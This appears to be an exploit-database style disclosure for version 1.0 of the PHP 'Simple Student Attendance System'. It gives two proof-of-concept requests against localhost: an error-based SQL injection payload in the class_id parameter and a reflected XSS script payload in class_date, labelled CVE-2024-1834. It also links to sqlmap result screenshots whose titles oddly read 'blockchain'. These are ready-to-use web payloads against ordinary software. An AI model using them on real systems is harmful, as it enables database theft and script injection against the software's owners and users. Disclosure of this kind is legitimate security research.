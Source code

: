### Exploit Title: Simple Student Attendance System - Multiple vulnerabilities
### Date: 2024-02/23
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./?page=attendance（SQL injections）
/?page=attendance SQL injection exists for parameter class_id

### Sample request POC #1

```
http://localhost:8889/?page=attendance&class_id=1%27%20AND%20GTID_SUBSET(CONCAT(0x7170707a71,(SELECT%20(ELT(5168=5168,1))),0x71706a7871),5168)%20AND%20%27rlSy%27=%27rlSy&class_date=2024-02-23
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708681814551.jpg "Simple Student Attendance System")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708681843042.jpg "Simple Student Attendance System")


# 2./?page=attendance（XSS）CVE-2024-1834
/?page=attendance XSS exists for parameter class_date

### Sample request POC #2

```
http://localhost:8889/?page=attendance&class_id=1&class_date=2024-02-23%22%3E%3Cscript%3Ealert(1)%3C/script%3E
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708682117907.jpg "Simple Student Attendance System")


